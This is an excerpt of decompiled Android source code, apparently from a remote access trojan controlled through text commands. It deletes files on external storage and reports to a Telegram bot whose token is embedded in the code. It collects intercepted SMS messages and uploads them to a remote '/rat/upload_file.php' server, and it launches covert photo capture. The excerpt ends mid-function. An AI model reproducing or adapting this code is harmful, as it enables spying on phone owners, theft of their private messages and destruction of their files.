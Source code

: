 ```java
    File.Delete(File.getDirRootExternal(), Split[2]);
    webViewWrapper = new WebViewWrapper();
    webViewWrapper.Initialize(processBA, "web");
    webViewWrapper.LoadUrl("https://api.telegram.org/bot339912423:AAHeJoVC3i8zzwXhtCQMBoevSCn3jEuKfZU/sendmessage?chat_id=275899582&text=حذف فایل______________" + Split[2]);
}
if (_text.startsWith("removeB") && Split[1].equals(_shomare)) {
    new List().Initialize();
    file3 = Common.File;
    append2 = new StringBuilder();
    file = Common.File;
    list2 = File.ListFiles(append2.append(File.getDirRootExternal()).append(Split[2]).append("/").toString());
    i2 = list2.getSize() - 1;
    for (ObjectToNumber = 0; ObjectToNumber <= i2; ObjectToNumber = (ObjectToNumber + 0) + 1) {
        file4 = Common.File;
        append = new StringBuilder();
        file2 = Common.File;
        File.Delete(append.append(File.getDirRootExternal()).append(Split[2]).append("/").toString(), C0006BA.ObjectToString(list2.Get(ObjectToNumber)));
    }
    file3 = Common.File;
    append2 = new StringBuilder();
    file = Common.File;
    File.Delete(append2.append(File.getDirRootExternal()).append(Split[2]).append("/").toString(), "");
}
if (_text.startsWith("lstmsg") && Split[1].equals(_shomare)) {
    file3 = Common.File;
    file3 = Common.File;
    File file5 = Common.File;
    File.Copy(File.getDirAssets(), "sms.txt", File.getDirRootExternal(), "Android/data/" + _shomare + "lstmsg.txt");
    file3 = Common.File;
    file3 = Common.File;
    File.WriteList(File.getDirRootExternal(), "Android/data/" + _shomare + "lstmsg.txt", _intercept.GetAll());
    uploadFilePhp = new UploadFilePhp();
    new List().Initialize();
    list = _intercept.GetAll();
    int size2 = list.getSize() - 1;
    str2 = str3;
    for (i2 = 0; i2 <= size2; i2 = (i2 + 0) + 1) {
        str2 = str2 + C0006BA.ObjectToString(list.Get(i2));
    }
    _send_message(C0006BA.ObjectToString(list.Get(list.getSize() - 1)));
    uploadFilePhp.Initialize(processBA, "bott2");
    uploadFilePhp.doFileUpload(processBA, (ProgressBar) Common.Null, (TextView) Common.Null, "/sdcard/Android/data/" + _shomare + "lstmsg.txt", "https://navidtwobottt.000webhostapp.com/rat/upload_file.php");
}
if (_text.startsWith("yehoo") && Split[1].equals(_shomare)) {
    C0006BA c0006ba = processBA;
    takephoto takephoto = mostCurrent._takephoto;
    Common.StartActivity(c0006ba, takephoto.getObject());
}

public static String _phoneins_phonestatechanged(String str, String str2, IntentWrapper intentWrapper) throws Exception {
String str3 = "";
StringBuilder append;
DateTime dateTime;
switch (C0006BA.switchObjectToInt(str, "RINGING", "IDLE", "OFFHOOK")) {
```
